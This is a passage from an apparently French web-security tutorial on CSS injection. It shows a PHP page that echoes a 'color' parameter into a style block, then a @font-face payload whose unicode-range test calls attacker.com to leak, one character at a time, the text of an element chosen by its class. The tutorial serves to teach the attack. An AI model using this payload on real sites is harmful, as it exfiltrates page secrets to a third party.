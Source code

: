 <figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

### Récupération en fonction de la classe

De la même façon, il est possible de cibler un attribut `class` au lieu d'un attribut `id` :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
     h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Injection CSS - récupération de la valeur d'un élément HTML par sa class via @font-face et descripteur unicode</h1>
    <span class="secret">s3cr3t</span>
  </body>
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Ici, c'est le caractère `.` qui va permettre de sélectionner l'attribut `class` désiré :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // Class ciblée par l'attaque
  .secret {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```